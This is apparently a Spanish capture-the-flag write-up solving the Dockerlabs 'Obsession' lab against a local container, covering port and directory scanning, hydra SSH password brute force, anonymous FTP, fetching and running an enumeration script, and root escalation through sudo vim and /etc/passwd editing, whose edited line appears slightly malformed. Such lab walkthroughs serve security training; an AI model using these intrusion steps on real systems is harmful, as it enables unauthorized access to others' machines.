


# Obsession - Dockerlabs

## Enumeración

Vamos a realizar un escaneo con nmap para descubrir los servicios que se están ejecutando en el contenedor.

```bash
sudo nmap -p- -sS --min-rate=5000 -vvv -n -Pn 172.17.0.2

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Entramos a http://172.17.0.2 y vemos una página web.




Vamos a enumerar los directorios de la página web con gobuster.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20

/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/server-status        (Status: 403) [Size: 275]
```

En http://172.17.0.2/important/ hay un archivo llamado `important.md` que contiene un mensaje:

```md
MANIFIESTO HACKER
                                                 La Conciencia de un Hacker 

                                 Uno más ha sido capturado hoy, está en todos los periódicos.

  "Joven arrestado en Escándalo de Crimen por Computadora", "Hacker arrestado luego de traspasar las barreras de seguridad de un banco.." 

Malditos muchachos. Todos son iguales. Pero tú, en tu psicología de tres partes y tu técnocerebro de 1950, has alguna vez observado detrás
                                                  de los ojos de un Hacker?

           Alguna vez te has preguntado qué lo mueve, qué fuerzas lo han formado, cuáles lo pudieron haber moldeado?

                                               Soy un Hacker, entra a mi mundo..

           El mío es un mundo que comienza en la escuela.. Soy más inteligente que la mayoría de los otros muchachos,
                                         esa basura que ellos nos enseñan me aburre..

                                           Malditos sub realizados. Son todos iguales.

    Estoy en la preparatoria. He escuchado a los profesores explicar por decimoquinta vez como reduciruna fracción. Yo lo entiendo.

                            "No, Srta. Smith, no le voy a mostrar mi trabajo, lo hice en mi mente..
                               "Maldito muchacho. Probablemente se lo copió. Todos son iguales.

                  Hoy hice un descubrimiento. Encontré una computadora. Espera un momento, esto es lo máximo.
                          Esto hace lo que yo le pida. Si comete un error es porque yo me equivoqué.

        No porque no le gustó.. o se siente amenazada por mí.. o piensa que soy un engreído.. o no le gusta enseñar y no
                     debería estar aquí.. Maldito muchacho. Todo lo que hace es jugar. Todos son iguales.

   Y entonces ocurrió.. una puerta abierta al mundo.. corriendo a través de las lineas telefónicas como la heroína a través de
       las venas de un adicto, se envía un pulso electrónico, un refugio para las incompetencias del día a día es buscado..
                                            una tabla de salvación es encontrada
```

En http://172.17.0.2/backup/backup.txt hay un archivo que contiene un mensaje:

```txt
Usuario para todos mis servicios: russoski (cambiar pronto!)
```

Ya que tenemos el usuario, podemos probar a conectarnos al servicio SSH que está corriendo en el contenedor.

```bash
ssh russoski@172.17.0.2

russoski@172.17.0.2's password:
```

Vamos a probar con fuerza bruta con hydra para obtener la contraseña del usuario `russoski`.

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Por otro lado, escaneamos el puerto 22 con nmap para obtener más información sobre el servicio SSH.

```bash
nmap -sCV -p22 172.17.0.2

22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos enfrentamos ante Ubuntu 24.04 LTS (Noble).

Vemos que la fuerza bruta con hydra ha terminado

```bash
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

Nos conectamos al contenedor a través de SSH con el usuario `russoski` y la contraseña `iloveme`.

```bash
ssh russoski@172.17.0.2

russoski@e0c41e43dc2d:~$ ls
Documentos  Proyectos

russoski@e0c41e43dc2d:~$ cd Documentos/
russoski@e0c41e43dc2d:~/Documentos$ ls
'Nikola Tesla.jpg'

cd Proyectos/
russoski@e0c41e43dc2d:~/Proyectos$ ls
README.md  Strong-Credentials.py
```

En el readme no hay nada importante y en el archivo `Strong-Credentials.py` hay un script que genera contraseñas aleatorias.

```python
# Importamos la librería Random que nos ayudará con la aleatoriedad de las contraseñas
import random

# Definimos las 3 variables donde almacenaremos los caracteres alfanuméricos y los símbolos
letras = "abcdefghijklmnñopqrstuvwxyzABCDEFGHIJKLMNÑOPQRSTUVWXYZ"
numeros = "123456789"
simbolos = "#@=<>{[]}?¿-;}][]}"

# Definimos Unión, donde combinaremos las variables anteriores
# Definimos Longitud, donde especificaremos el largo de las contraseñas
union = f'{letras}{numeros}{simbolos}'
longitud = 20

# Definimos Contraseña, donde la función random actuará sobre las variables Unión y Longitud
# Definimos Contraseña_final, donde se almacenará en una cadena vacía el resultado de Contraseña
contraseña = random.sample(union, longitud)
contraseña_final = "".join(contraseña)

# Imprimimos por pantalla la contraseña resultante junto a un mensaje descriptivo
print("-> Tu Contraseña generada es:", contraseña_final)
```

Vamos ahora a probar ver el puerto 21 que es el puerto del servicio FTP que está corriendo en el contenedor.

```bash
nmap -sCV -p21 172.17.0.2

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
```

Vemos que el servicio FTP permite login anónimo, por lo que podemos conectarnos al servicio FTP con el usuario `ftp` y sin contraseña.

```bash
ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:mmr): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> get chat-gonza.txt
ftp> get pendientes.txt
```

```
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```

```
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

Aqui nos insinua a que cambiemos algunas configuraciones de nuestro equipo, ya que tenemos ciertos permisos habilitados que no son del todo seguros. Esto nos da una pista de que debemos buscar un archivo de configuración en el contenedor.

Vamos a utilizar la siguiente herramienta:

```bash
wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh

./lse.sh

[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for russoski on e0c41e43dc2d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on e0c41e43dc2d:
    (root) NOPASSWD: /usr/bin/vim
```

Vemos que el usuario `russoski` puede ejecutar el comando `vim` como root sin necesidad de contraseña.

Si, podemos ejecutar `vim` como root, por lo que ahora podemos editar archivos de configuración del sistema.

Modificamos esto:
```bash
root:x:0:0:root:/root:/bin/bash
```

A esto:
```bash
root:0:0:root:/root:/bin/bash
```

```bash
russoski@e0c41e43dc2d:~$ su root
root@e0c41e43dc2d:/home/russoski#

root@e0c41e43dc2d:/home/russoski# cd /root
root@e0c41e43dc2d:~# ls
Video-Nagore-Fernandez.txt

root@e0c41e43dc2d:~# cat Video-Nagore-Fernandez.txt

Al fin lo terminé! es tan hermosa.. <3

https://www.youtube.com/shorts/_v8GzGReTAk
```

Y así queda resuelto el laboratorio Obsession de Dockerlabs.